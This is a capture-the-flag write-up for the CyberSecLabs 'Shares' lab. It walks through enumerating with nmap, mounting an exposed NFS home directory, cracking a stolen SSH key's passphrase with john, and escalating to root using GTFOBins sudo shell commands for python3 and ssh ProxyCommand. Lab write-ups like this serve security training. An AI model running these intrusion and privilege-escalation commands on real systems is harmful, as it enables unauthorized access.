 ```yaml
---
title: "CyberSecLabs - Shares"
author: Nasrallah
description: ""
date: 2022-03-19 00:00:00 +0100
categories : [CyberSecLabs]
tags: [cyberselabs, linux, nfs, john, crack]
#img_path: /assets/img/cyberselabs
image:
  src:
  width:
  height:
  alt:
---
```


---

# **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at []() from [Shares](https://www.cyberseclabs.co.uk/labs/info/Shares/) from [CyberSecLabs](https://www.cyberseclabs.co.uk).

# **Enumeration**
## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressice scan to provide faster results.

![](/assets/img/cyberseclabs/shares/Untitled.png)

There are 4 open port.
  - 21/tcp     ftp     vsftpd 3.0.3
  - 80/tcp     http    Apache httpd 2.4.29
  - 111/tcp    rpcbind 2-4
  - 2049/tcp   nfs_acl 3

Since the machine is called shares, i decided to look for any nfs shares.

## NFS

We can list nfs shares using the following command: `showmount -e {target_IP}`

![](/assets/img/cyberseclabs/shares/Untitled1.png)

We found a share, let's mount it on our attacking machine.

First, use `mkdir /tmp/share` to create a directory on your machine to mount the share to. Now let's use the following command to mount the nfs share to our machine. `sudo mount -t nfs IP:/home/amir /tmp/share -nolock`

 - sudo :	Run as root
 - mount :	Execute the mount command
 - -t nfs :	Type of device to mount, then specifying that it's NFS
 - IP:share :	The IP Address of the NFS server, and the name of the share we wish to mount
 - -nolock :	Specifies not to use NLM locking

![](/assets/img/cyberseclabs/shares/Untitled2.png)

Great! We have successfully mounted the share.
It appears to be the home directory of **amir**, and it a **.ssh** directory that contains a private key, but when we run a port scan, there was no ssh service listening on the machine, let's run another scan for all ports. `sudo nmap -p- {target_IP}`

![](/assets/img/cyberseclabs/shares/Untitled3.png)

Great! We found the port of ssh.

# **Foothold**

Let's now use the private key we got from the nfs share so connect to the machine.

![](/assets/img/cyberseclabs/shares/Untitled4.png)

the private key has a password protecting it, using `ssh2john` we were able to extract a hash that we managed to crack using `john`. Let's try connecting again.

![](/assets/img/cyberseclabs/shares/Untitled5.png)


# **Privilege Escalation**

We now have access to the machine as **amir**, let's do some basic enumeration.

```terminal
amir@shares:~$ sudo -l
Matching Defaults entries for amir on shares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amir may run the following commands on shares:
    (ALL : ALL) ALL
    (amy) NOPASSWD: /usr/bin/pkexec
    (amy) NOPASSWD: /usr/bin/python3
```

We see that as amir, we can execute any command as root but we need a password for that, on the other hand, we can execute `/usr/bin/pkexec` and `/usr/bin/python3` as **amy**. We go to [GTFOBins](https://gtfobins.github.io/) and get a pkexec/python3 command that would give us a shell as amy.
  - python3 : `sudo -u amy python -c 'import os; os.system("/bin/bash")'`
  - pkexec : `sudo -u amy pkexec /bin/sh`

We can't escalate to amy with `pkexec` so let's use `python3`

![](/assets/img/cyberseclabs/shares/Untitled6.png)

We have amy's shell now, let's run another `sudo -l` to see what we can run.

```terminal
amy@shares:~$ sudo -l
Matching Defaults entries for amy on shares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amy may run the following commands on shares:
    (ALL) NOPASSWD: /usr/bin/ssh
```
We can run `ssh` as root.
Going back to [GTFOBins](https://gtfobins.github.io/) and searching for ssh, we find that we can run the following command to get root `sudo ssh -o ProxyCommand=';bash 0<&2 1>&2' x`

![](/assets/img/cyberseclabs/shares/Untitled7.png)



---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
